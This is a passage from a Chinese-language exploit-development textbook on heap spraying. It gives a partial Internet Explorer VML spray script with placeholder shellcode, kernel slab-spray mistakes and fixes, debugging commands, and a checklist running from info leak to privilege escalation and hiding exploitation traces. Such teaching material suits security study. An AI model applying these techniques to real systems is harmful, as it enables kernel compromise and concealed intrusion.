 * 3. 触发整数溢出 → 堆溢出 → 覆盖相邻对象的虚表指针
 * 4. 虚表指针指向 0x0c0c0c0c（NOP sled 区域）
 * 5. 虚函数调用 → 跳转到 0x0c0c0c0c → 滑过 NOP → 执行 shellcode
 */

// 第一步：堆喷射布置 shellcode
function exploit() {
    var spray_count = 0x1f8; // 504 个喷射块
    var block_size = 0x100000; // 1MB per block
    
    // 构造 payload：NOP sled + shellcode
    var payload = "";
    for (var i = 0; i < 0x1000; i++) {
        payload += "\u9090"; // NOP sled
    }
    // 追加 UTF-16 编码的 shellcode
    payload += "\uXXXX\uXXXX..."; // 实际 shellcode
    
    // 填充到 block_size
    while (payload.length < block_size / 2) {
        payload += "\u9090";
    }
    
    // 执行堆喷射
    var arr = new Array(spray_count);
    for (var i = 0; i < spray_count; i++) {
        arr[i] = payload.substr(0, payload.length);
    }
    
    // 第二步：触发漏洞
    // 创建 VML 对象，触发整数溢出
    // 溢出覆盖虚表指针为 0x0c0c0c0c
    // 虚函数调用 → 执行 shellcode
    
    // ... 漏洞触发代码（此处省略）
}
```

### 31.5.10 常见错误与调试技巧

#### 常见错误

**错误 1：喷射大小不匹配**

```c
// 错误：使用 msg_msg 喷射覆盖 kmalloc-256 的对象
// 但消息总大小只有 200 字节（48 + 152）
msg_msg_spray(200, data, 500);
// 实际分配在 kmalloc-192 中！永远无法覆盖 kmalloc-256 的目标对象

// 正确：传入目标对象的总大小（包含 msg_msg 头部）
// kmalloc-256 的对象大小是 256 字节
// msg_msg 头部 48 字节，所以消息数据应为 256 - 48 = 208 字节
msg_msg_spray(256, data, 500);
// 现在 msg_msg + m_text 总共 256 字节，分配在 kmalloc-256
```

**错误 2：未绑定 CPU 导致分配不确定**

```c
// 错误：在多核系统上不绑定 CPU
// Per-CPU freelist 的行为因 CPU 不同而不同
// 喷射可能分散在多个 CPU 的 freelist 中，布局不可预测

// 正确：在喷射前绑定到单个 CPU
pin_cpu(0);
// ... 执行所有堆风水和喷射操作 ...
// 利用完成后再解除 CPU 绑定
```

**错误 3：堆风水时序问题**

```c
// 错误：释放后立即喷射，没有等待 slab 处理
free_target_object();
spray_immediately();  // 可能太早，freelist 还没更新
// SLUB 的 per-CPU freelist 更新不是原子的
// 在某些竞态条件下，新分配可能不会立即使用刚释放的空间

// 正确：确保释放操作完成
free_target_object();
// 可选：通过 sys_sync 或其他操作确保 slab 更新
// 但在实际利用中，通常不需要显式等待
// 因为 SLUB 的释放操作是在当前 CPU 上同步完成的
// 关键是不要在多线程中跨 CPU 操作同一 slab
spray_immediately();  // 在同一 CPU 上，释放后立即分配是安全的
```

**错误 4：忽略 slab 碎片化**

```c
// 错误：假设释放的对象会被精确重用
// 实际上，SLUB 可能将空闲对象放在 partial list 的末尾
// 新分配可能从 partial list 的头部获取，导致"跳过"目标空洞

// 正确：使用堆风水确保空洞在预期位置
// 1. 分配大量对象填满当前 slab 页
// 2. 间隔释放对象，制造均匀分布的空洞
// 3. 触发 UAF，释放目标对象
// 4. 喷射新对象，它们会按 LIFO 顺序填入空洞
```

#### 调试技巧

```bash
# ===== Slab 缓存分析 =====
# 查看所有 slab 缓存的使用情况
cat /proc/slabinfo | head -5  # 表头
cat /proc/slabinfo | grep kmalloc-192  # 查看特定缓存

# 使用 crash 工具交互式分析内核堆
# crash vmlinux /proc/kcore
# crash> kmem -s kmalloc-192
#   显示每个 slab 页中的对象布局、空闲/占用状态

# ===== 内存分配追踪（需要 CONFIG_FTRACE） =====
# 启用 kmalloc 追踪点
echo 1 > /sys/kernel/debug/tracing/events/kmem/kmalloc/enable
echo 1 > /sys/kernel/debug/tracing/events/kmem/kfree/enable
cat /sys/kernel/debug/tracing/trace_pipe

# 过滤特定 slab 缓存的分配事件
echo 'kmalloc-192' > /sys/kernel/debug/tracing/set_ftrace_filter

# ===== 伙伴系统分析 =====
# 查看伙伴系统的页面分布
cat /proc/buddyinfo

# ===== 用户态内存映射 =====
# 查看进程的虚拟内存布局
cat /proc/self/maps
cat /proc/<pid>/smaps  # 更详细的信息

# ===== 性能分析 =====
# 使用 perf 监控内核函数调用
perf record -e 'kmem:kmalloc' -g -p <pid> sleep 10
perf report

# 使用 ftrace 追踪特定内核函数
echo 'slab_alloc_node' > /sys/kernel/debug/tracing/set_ftrace_filter
echo function > /sys/kernel/debug/tracing/current_tracer
cat /sys/kernel/debug/tracing/trace

# ===== SLUB DEBUG（需要 CONFIG_SLUB_DEBUG） =====
# 启用 SLUB 调试（通过内核启动参数）
# slub_debug=FZPU → F=sanity checks, Z=red zoning, P=padding, U=user tracking
# 在 /sys/kernel/slab/<cache>/ 中查看调试信息
cat /sys/kernel/slab/kmalloc-192/alloc_fastpath
cat /sys/kernel/slab/kmalloc-192/alloc_slowpath

# ===== KASAN（需要 CONFIG_KASAN） =====
# KASAN 在每次内存分配时插入 red zone 和 shadow memory
# 可以检测 use-after-free、buffer-overflow 等内存错误
# 启用：内核启动参数 kasan=1
# 输出在 dmesg 中：BUG: KASAN: use-after-free in ...
```

### 31.5.11 总结与最佳实践



**堆喷射操作清单**：

| 步骤 | 操作 | 关键注意事项 |
|------|------|-------------|
| 1. 确定目标 | 明确目标对象大小、slab 缓存、字段偏移 | 使用 /proc/slabinfo 或 crash 工具确认 |
| 2. 选择原语 | 根据目标大小选择匹配的喷射原语 | 参考 31.5.3 节对比表 |
| 3. 绑定 CPU | 使用 `sched_setaffinity` 绑定到单个 CPU | 消除 Per-CPU freelist 的不确定性 |
| 4. 堆风水 | 通过分配/释放操作制造可控的堆布局 | 间隔释放法最常用 |
| 5. 信息泄露 | 通过越界读获取内核基地址（绕过 KASLR） | 先泄露、再利用 |
| 6. 执行喷射 | 大量分配与目标对象大小匹配的数据 | 确保大小精确匹配 slab 档位 |
| 7. 验证覆盖 | 通过悬垂指针读取，确认数据已被覆盖 | 读取关键字段（如虚表指针） |
| 8. 劫持控制流 | 利用覆盖的函数指针或虚表跳转到 payload | 结合 ROP/JOP 执行 |
| 9. 提权/逃逸 | 执行最终 payload（提权、沙箱逃逸） | 修改 cred/modprobe_path 等 |
| 10. 清理痕迹 | 关闭文件描述符、删除临时文件、恢复堆状态 | 避免留下利用痕迹 |

**选择喷射原语的决策树**：

```text
需要覆盖的对象大小？
├─ < 32 字节
│   ├─ 需要完全可控数据 → setxattr（精确大小）
│   └─ 只需要占据空间 → 小对象 msg_msg
├─ 32-192 字节
│   ├─ 需要信息泄露能力 → msg_msg（可读取消息）
│   └─ 不需要泄露 → setxattr（更简单）
├─ 192-4KB
│   ├─ UAF 场景 → pipe_buffer（稳定分配）
│   ├─ 需要精确数据 → msg_msg 或 setxattr
│   └─ 网络漏洞 → sk_buff
├─ 4KB-64KB
│   ├─ msg_msg（支持大消息，跨多个 kmalloc 档位）
│   └─ 页级别分配（buddy system）
└─ > 64KB
    ├─ mmap/VirtualAlloc（用户态）
    └─ alloc_pages（内核态）
```

**跨平台堆喷射技术对比**：

| 平台 | 历史起源 | 主要喷射技术 | 当前有效性 |
|------|---------|-------------|-----------|
| Windows (IE) | 2004, David Remer | JS 字符串 + VirtualAlloc | 低（W^X + CFG + ACG） |
| Linux 内核 | 2016+ | msg_msg, setxattr, pipe_buffer | 高（仍有大量可利用内核） |
| Android 内核 | 2017+ | msg_msg, add_key, perf_event | 中高（MTE 正在部署） |
| macOS/iOS | 2010+ | JS 字符串 + Zone GC | 中（PAC +Zone Isolation） |
| Firefox/Chrome | 2005-2015 | JS TypedArray, WebAssembly | 低（严格沙箱） |

**核心认知**：堆喷射不是一种独立的利用技术，而是漏洞利用链中的"基础设施"。它将一个有限的漏洞原语（如 UAF 的悬垂读写）扩展为强大的利用能力（任意代码执行）。理解堆喷射的原理和实践，是掌握现代内核提权技术的必经之路。

在学习和研究过程中，建议结合本章的其他技术（ROP 31.4 节、JIT 喷射 31.6 节）和实战案例（31.7 节）来建立完整的利用思维。堆喷射的精髓不在于"喷多少"，而在于"喷什么、喷到哪、为什么这样喷"。
